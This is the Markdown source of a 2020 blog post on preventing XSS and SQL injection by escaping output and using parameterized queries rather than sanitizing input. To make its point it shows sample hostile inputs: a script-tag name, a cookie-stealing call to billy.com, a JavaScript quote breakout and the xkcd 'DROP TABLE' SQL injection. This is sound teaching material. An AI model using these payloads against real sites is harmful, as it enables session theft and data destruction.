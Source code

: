 ```yaml
---
layout: default
title: Don’t try to sanitize input. Escape output.
permalink: /writings/dont-sanitize-do-escape/
description: Why you should escape output correctly, but generally not sanitize user input.
---
```

<h1><a href="{{ page.permalink }}">{{ page.title }}</a></h1>
<p class="subtitle">February 2020</p>


Every so often developers talk about "sanitizing user input" to prevent cross-site scripting attacks. This is well-intentioned, but leads to a false sense of security, and sometimes mangles perfectly good input.


## How does cross-site scripting happen?

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site repeats back to them verbatim in a page's HTML. This might cause minor issues (HTML that breaks the page layout) or major ones (JavaScript that sends the user's login cookie to an attacker's site).

Let's walk through a concrete example:

1. NaiveSite allows you to enter your name, which is output as is on your profile page.
2. Billy the Kid enters his name as `Billy <script>alert('Yo ho ho!')</script>`.
3. Anyone who visits Billy's profile page gets some HTML including the unescaped `script` tag, which their browser runs.
4. If the `alert()` were changed to something more malicious, like `sendCookies('https://billy.com/cookie-monster')`, Billy may now be collecting the unsuspecting visitor's login information.

Side note: it isn't quite this simple, as login cookies are usually marked `HttpOnly`, which means they're not accessible to JavaScript. But this is NaiveSite, so it's likely they made both an XSS mistake and a cookie one.


## Why input filtering isn't a great idea

The developer has heard of "input filtering" or "sanitizing input", so they write some code to strip out unsafe HTML characters `<>&` from the name before storing it. Problem solved!

But there are two problems with this. For one, a couple might sign up to NaiveSite as <code>Bob&nbsp;&amp;&nbsp;Jane&nbsp;Smith</code>, but the filtering code strips the `&`, and suddenly Bob is on his own, with a middle name of Jane.

Or if the filter is a bit more zealous and also strips `'` and `"`, someone like Bill O'Brien becomes Bill OBrien. Messing up [people's names](https://www.kalzumeus.com/2010/06/17/falsehoods-programmers-believe-about-names/) is not a good look.

Perhaps more importantly, it gives a false sense of security. What does "unsafe" mean? In what context? Sure, `<>&` are unsafe characters for HTML, but what about CSS, JSON, SQL, or even shell scripts? Those have a completely different set of unsafe characters.

For example, NaiveSite might have an HTML template that looks like this:

```html
<html>
...
<script>
var name = "<?=$name?>";
</script>
```

If an attacker sets their name to include double quotes, like `"; badFunc(); "`, they can run arbitrary JavaScript on any NaiveSite pages that display the user's name (which, if you're logged in, is probably all of them).

Another example of this kind of thing is SQL injection, an attack that's closely related to cross-site scripting. NaiveSite is powered by MySQL, and it finds users like so:

```php
$query = "SELECT * FROM users WHERE name = '{$name}';"
```

When a boy named [`Robert'); DROP TABLE users;`](https://xkcd.com/327/) comes along, NaiveSite's entire user database is deleted. Oops!

Incidentally, the mother in the xkcd comic says, "I hope you've learned to sanitize your database inputs." Which is somewhat confusing, but I'll give Randall the benefit of the doubt and assume he meant "escape your database parameters".

In short, it's no good to strip out "dangerous characters", because some characters are dangerous in some contexts and perfectly safe in others.


## Escape your output instead

The only code that knows what characters are dangerous is the code that's outputting in a given context.

So the better approach is to store whatever name the user enters verbatim, and then have the template language HTML-escape when outputting HTML, or properly escape JSON when outputting JSON and JavaScript. And of course use your SQL engine's parameterized query features so it properly escapes variables when building SQL.

This is sometimes called “contextual escaping”. If you happen to use Go's [`html/template`](https://golang.org/pkg/html/template/) package, you get automatic contextual escaping for HTML, CSS, and JavaScript. Most other templating systems at least give you automatic HTML escaping, for example React, Jinja2, and Rails templates.


## But what if you *want* raw input?

One tricky situation is when your app's purpose is allowing a user to enter HTML or Markdown for display. In this case you can't escape when rendering output, because the whole purpose is to allow users to add links, images, headings, etc.

So you have to take a different approach. If you're using Markdown, you can either:

1. Allow them to only enter pure Markdown (that is, no raw HTML), and convert that to HTML on render. This is the most secure option, but also more restrictive.
2. Allow them to use HTML in the Markdown, but only a whitelist of allowed tags and attributes, such as `<a href="...">` and `<img src="...">`. Both [Stack Exchange](https://meta.stackexchange.com/a/135909/160696) and [GitHub](https://github.github.com/gfm/#disallowed-raw-html-extension-) take this second approach.

If you're not using Markdown but want to let your users enter HTML directly, you only have the second option -- you must filter using a whitelist of tags.

So in cases where you do need to "echo" raw user input, carefully filter input based on a restrictive whitelist, and store the result in the database. When you come to output it, output it as stored without escaping.

The parallel for SQL injection might be if you're building a data charting tool that allows users to enter arbitrary SQL queries. You might want to allow them to enter `SELECT` queries but not data-modification queries. In these cases you're best off using a proper SQL parser ([like this one](https://github.com/xwb1989/sqlparser)) to ensure it's a well-formed `SELECT` query.


## What about validation?

Input sanitization is usually a bad idea, but input *validation* is a good thing.

For example, when you're parsing form fields, and you have a number field that's not a number, or an email address without an `@`, or a "post status" drop-down that can only be one of `draft`, `published`, or `archived` -- then by all means validate it and return an error if it's invalid.

Good web form validation shows errors inline so the user knows exactly what to fix:

![Web form validation](/images/form-validation.png)

You must do validation at least on the backend, otherwise an attacker could bypass the frontend validation and `POST` bogus data to your endpoint directly. In addition, you can also validate early on the frontend to show errors more real-time, without a round trip to the server.


## Further reading

OWASP has two cheat sheets on [Cross Site Scripting Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet) and [SQL Injection Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) that contain a lot of further information on escaping.

There's also a StackOverflow [answer to "How can I sanitize user input with PHP?"](https://stackoverflow.com/questions/129677/how-can-i-sanitize-user-input-with-php/130323#130323) that is somewhat PHP-specific, but I found it succinct and helpful. It links to a page on PHP [magic quotes](https://www.php.net/manual/en/security.magicquotes.php), which were a bad idea and actually removed in PHP 5.4 -- the discussion there is very much in line with what I've written above.

If you have any feedback on this article, please get in touch!
